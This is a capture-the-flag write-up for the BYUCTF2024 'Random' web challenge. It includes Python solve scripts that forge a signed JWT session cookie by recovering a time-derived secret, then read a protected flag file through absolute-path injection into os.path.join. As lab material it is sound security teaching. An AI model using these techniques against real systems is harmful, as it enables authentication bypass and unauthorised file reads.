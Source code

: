 # BYUCTF2024 Random Writeup

#### Overview

Overall this was a pretty fun challenge, I enjoyed it a lot. It came off as easy at first, but tricked me in a few places. This challenge can be broken down into two major stages: figure out how to get the same secret key to sign a session cookie and how to get the file `flag.txt` from the `filename` url parameter.

#### Approach

When I first opened up the web page, I got a 403 error. So I inspected the source code provided and found that the server is checking for a key value pair`{userid: 0}` in the session cookie.

![web1_1](/BYUCTF2024/images/byu1_1.png)

![web1_2](/BYUCTF2024/images/byu1_2.png)


#### Stage 1

In order to sign the session cookie, I needed to create the same secret key as the server used to authenticate. Looking through the source code, I found that it returned `time.time()-time.started()` in the response when I sent a request with an incorrect session cookie. So I extracted the seconds in the response and calculated `time_started`, which was the key to crafting the secret key. Here is my code for signing the session cookie:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}
```


#### Stage 2

The next stage of the challenge involved reading the file `flag.txt` from the `filename` url parameter. I first looked through the Dockerfile and found the directory `flag.txt` was in. The tricky part here was figuring out how to get from `files/` to the correct directory without using `../` for path traversal. It turned out that `os.path.join()` will overwrite the previous path if it sees another absolute path. So to get the final flag, I sent the request to the route `/api/file` with the absolute path to the file as the parameter.

```
r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```


#### Solution

Putting everything together, here is my final solve for the challenge:

```
import hashlib, time, jwt, requests

r = requests.get('https://random.chal.cyberjousting.com/', cookies={'session':"test"})
res = r.text
seconds = int(res[72:75])
time_started = round(time.time() - seconds)
APP_SECRET = hashlib.sha256(str(time_started).encode()).hexdigest()
payload = jwt.encode(payload={'userid': 0}, key=APP_SECRET, algorithm='HS256')
cookie = {'session': payload}

r = requests.get('https://random.chal.cyberjousting.com/api/file?filename=/in_prod_this_is_random/flag.txt', cookies=cookie)
print(r.text)
```
